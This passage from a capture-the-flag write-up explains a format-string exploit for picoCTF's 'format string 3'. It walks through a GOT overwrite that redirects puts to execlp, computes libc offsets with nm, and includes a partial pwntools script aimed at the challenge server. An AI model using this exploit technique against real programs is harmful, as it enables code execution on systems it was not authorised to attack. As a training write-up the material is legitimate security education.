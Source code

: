How can we call `execlp` however?

The last line of in main calls `puts(normal_string)` and prints the **"/bin/sh"**.  
`puts` is a function in libc, meaning the above steps to resolve its address take place.  
We can **change** its entry, `puts@got.plt`, in GOT to the address of `execlp`.

Similarly to the previous challenge, **format string 2**,  we can change a value using the string format vulnerability.

What we need to do now, is find the **offset** of `execlp` to `setvbuf`, the address given to us, to be able to **calculate** its address when we launch the program.

Using `nm` we can see the **offset** of the function which will be **loaded** by the linker at runtime.

```
nm -D libc.so.6| grep ' setvbuf' 
000000000007a3f0 W setvbuf@@GLIBC_2.2.5

nm -D libc.so.6| grep ' execlp'
00000000000da830 T execlp@@GLIBC_2.2.5
```

Their **difference** is **0x60440**.

Now, I will use a **Python** script using `pwntools`, similar to the one in the previous challenge, to easily **construct** the payload.

### Script
```python
from pwn import *

exe = context.binary = ELF('./format-string-3', checksec=False)
target_addr = 0x404018
value_to_write = 0x60440

conn = remote('rhea.picoctf.net', 63152)

# Calculate argument offset
def find_offset():
   payload=b"AAAA"
   payload += b'%p.' * 38
   print(conn.recvline())
   print(conn.recvline())
   conn.sendline(payload)
   print(conn.recvline())

def get_address(line):
   tokens=line.split()
   last_token=tokens[-1]
   address=last_token
   return int(address,16)

def send_payload():
   global value_to_write
   
   offset = 38
   print(conn.recvline())
   line=conn.recvline()
   get_address(line)

   setvbuf_addr=get_address(line)
   value_to_write+=setvbuf_addr
   print(hex(value_to_write))
   payload = fmtstr_payload(offset, {target_addr: value_to_write},write_size='byte')
   print(payload)
   
```